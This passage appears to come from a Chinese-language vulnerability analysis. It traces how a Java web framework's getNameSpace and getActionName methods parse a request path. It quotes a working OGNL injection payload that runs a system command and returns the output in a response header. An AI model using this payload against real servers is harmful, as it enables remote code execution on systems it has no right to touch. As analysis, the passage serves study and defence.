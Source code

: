 this.getNameSpace 会将 servletPath 获取从0到最后一个 / 的路径

![image-20221006194651865](assets\image-20221006194651865.png)

也就是获取我们 payload 的部分 

```
/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}/
```

![image-20221006195820039](assets\image-20221006195820039.png)

this.getActionName 会获取我们的端点部分，从 / 开始到最后一个 . 之间的值，也就是获取到 index

![image-20221006200158609](assets\image-20221006200158609.png)

